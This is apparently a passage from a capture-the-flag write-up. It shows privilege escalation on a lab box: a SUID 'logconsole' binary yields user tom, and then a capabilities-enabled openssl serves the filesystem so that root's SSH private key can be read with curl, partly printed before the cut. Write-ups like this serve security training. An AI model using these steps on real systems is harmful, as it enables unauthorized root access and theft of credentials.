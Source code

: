 Now i'll run the suid binary and choose option 6

```
Debian-snmp@escape:/tmp$ /usr/bin/logconsole


 /$$                                                                       /$$          
| $$                                                                      | $$          
| $$  /$$$$$$   /$$$$$$   /$$$$$$$  /$$$$$$  /$$$$$$$   /$$$$$$$  /$$$$$$ | $$  /$$$$$$ 
| $$ /$$__  $$ /$$__  $$ /$$_____/ /$$__  $$| $$__  $$ /$$_____/ /$$__  $$| $$ /$$__  $$
| $$| $$  \ $$| $$  \ $$| $$      | $$  \ $$| $$  \ $$|  $$$$$$ | $$  \ $$| $$| $$$$$$$$
| $$| $$  | $$| $$  | $$| $$      | $$  | $$| $$  | $$ \____  $$| $$  | $$| $$| $$_____/
| $$|  $$$$$$/|  $$$$$$$|  $$$$$$$|  $$$$$$/| $$  | $$ /$$$$$$$/|  $$$$$$/| $$|  $$$$$$$
|__/ \______/  \____  $$ \_______/ \______/ |__/  |__/|_______/  \______/ |__/ \_______/
               /$$  \ $$                                                                
              |  $$$$$$/                                                                
               \______/                                                                 

                                                                                                                                         
1. About the Sytem
2. Current Process Status
3. List all the Users Logged in and out
4. Quick summary of User Logged in
5. IP Routing Table
6. CPU Information
7. To Exit 
99. Generate the Report                                                                                 
                                                                                                        
Enter the option ==> 6                                                                                  
                                                                                                        
tom@escape:/tmp$ id
uid=1000(tom) gid=115(Debian-snmp) groups=115(Debian-snmp)
tom@escape:/tmp$ cd /home/tom
tom@escape:/home/tom$
```

Cool we're user tom now lets get root 💀

After i ran linpeas i got a binary(openssl) which has capabilities

```
tom@escape:/home/tom$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/opt/cert/openssl =ep
tom@escape:/home/tom$
```

Using this [blog](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) I can read any files in the system

After following the steps i'll read the root's ssh key

```
tom@escape:~$ curl -k "https://127.0.0.1:1337/root/.ssh/id_rsa" 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
V+IE0rS8N2pIymRF3u8U/9YMX/Ps2EPvNQFkTQIDAQABAoIBAQCXXa/Ce6z/76pf
rU81kJ8JO4vPQkm6CIozvroWBWcumzaj5Kn38SFDXh5kQF0bR1e2XEVRe6bnG4GW
s2WQZsbVQRZxzhCGiju6jS7wfoNtDhHdxjw3gGI3sAb8j5jTmmOZgCqdihnUsPtm
wm+2ykivQAi0jO3gfYuPApqHs+ppngt2KeMUZesIz4BWuFAnS0ePK/tpTHpZ4KRj
D/sb1kdseaCmPfOD6oTMGNtTiakkDUzObN3Pw19v5wkHfawTbmsSeiPmW1nC5xh/
OI7K+wbVUCj3Dys3xqKoCMK27y+pYHzzoiz7ol+OitIth6ucDe6NC6cFbVPmW2o0
```